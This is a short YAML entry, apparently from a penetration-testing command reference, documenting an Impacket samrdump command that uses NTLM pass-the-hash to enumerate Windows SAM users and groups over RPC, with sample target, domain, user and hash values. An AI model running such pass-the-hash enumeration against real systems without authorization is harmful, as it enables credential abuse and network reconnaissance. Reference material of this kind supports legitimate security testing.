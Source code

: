 ```yaml
---
description: Enumerate user accounts and groups from the SAM database over RPC using Impacket's samrdump with NTLM Pass-the-Hash.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-samrdump -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 test.local/john@10.10.10.1

items:
  - Hash

services:
  - RPC
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://github.com/fortra/impacket
---
```

